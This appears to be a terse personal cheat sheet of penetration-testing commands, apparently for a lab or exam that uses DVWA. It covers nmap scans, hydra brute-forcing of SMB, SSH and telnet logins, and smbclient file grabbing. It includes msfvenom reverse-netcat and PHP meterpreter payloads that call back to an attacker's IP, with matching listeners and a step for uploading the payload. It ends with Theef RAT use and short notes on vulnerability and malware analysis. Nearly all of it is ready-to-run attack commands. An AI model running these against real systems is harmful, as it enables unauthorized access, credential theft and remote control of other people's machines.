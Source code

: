 
```
#  Some extra work 
```
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)

SMB : Bookmarks = smb password cracking and enum4linux cheat sheet
nmap -p 139,445 --script vuln ip
hydra -L user.txt -P pass.txt ip smb (or) Check bookmark
smbclient //(ip)/share
smbclient -L ip
get file and cat file and use bctextencoder if it is encoded

Telnet : Bookmark= password cracking telnet
nmap -vv ip (or) nmap -p 22,23,80,3389 ip
telnet (ip) port(80)
GET /HTTP/1.1
hydra -L user.txt -P pass.txt ip ssh (or) bookmark [AM credentials]
hydra -L user.txt -P pass.txt ip telnet [VM credentials]
ssh username@ip and password
telnet ip and password
msfvenom -p cmd/unix/reverse_netcat lhost=ip(attacker's ip) lport=4444
[paste this payload in target machine]
nc -lnvp 4444 [type this in attacker's machine]
ls
find . -name file.txt
cat /path/file.txt

DVWA:
ZAP
payload :
msfconsole
msfvenom -p php/meterpreter/reverse_tcp lhost=ip[from qns] lport=4444 -f
raw > exploit.php
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost ip [upload file]
run [paste it in url]
ls and get the file
```
# CVE / Vulnerability Analysis
```
Openvas And Nessus also used for Vulnerability analysis
Using Nmap
nmap -Pn --script vuln (ip)
Fine and paste cve id to google > go to  NVD site > and get the score
```
# Malware Analysis
```
Analysis Malicious file
DIE > upload file > file info or
PE extraction tools like ghidra> open > upload > details
```
# Remote Access Trojen
```
RAT: Ports[9871,6703]
nmap -p- (ip)
run client.exe [theef]
enter ip,port and connect
file explorer>file.txt
```
